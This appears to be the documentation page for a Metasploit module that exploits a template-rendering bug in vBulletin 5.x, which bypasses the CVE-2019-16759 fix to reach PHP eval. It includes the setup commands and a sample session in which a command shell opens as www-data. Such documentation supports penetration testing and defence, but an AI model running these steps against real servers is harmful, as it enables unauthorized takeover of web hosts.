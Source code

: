 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.2 running on Ubuntu Linux 19.04

### Description

This module exploits a logic bug within the template rendering code of vBulletin 5.x. The module 
uses the vBulletin template rendering functionality to render the 'widget_tabbedcontainer_tab_panel' 
template while also providing the 'widget_php' argument which causes the former template to load the 
latter bypassing filters originally put in place to address 'CVE-2019-16759'. This also allows the 
exploit to reach an eval call with user input allowing the module to achieve PHP remote code execution 
on the target. This module has been tested successfully on vBulletin version 5.6.2 on Ubuntu Linux.

## Verification Steps

1. Do: ```use exploit/multi/http/vbulletin_widget_template_rce```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set LHOST [IP]```
5. Do: ```set TARGETURI [PATH]```
6. Do: ```set PAYLOAD [PAYLOADNUM]```
7. Do: ```run```

## Options

### TARGETURI

The base URI path of vBulletin. **Default: /**

### PHP_CMD

The PHP function to use to execute commands on the target. **Default: shell_exec**

## Scenarios

```
msf6 > use exploit/multi/http/vbulletin_widget_template_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set VHOST vb.local
VHOST => vb.local
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set TARGETURI /
TARGETURI => /
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set PAYLOAD 5
msf6 exploit(multi/http/vbulletin_widget_template_rce) > run

[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending php/bind_perl command payload
[*] Started bind TCP handler against 127.0.0.1:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 127.0.0.1:4444) at 2020-08-09 06:29:57 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

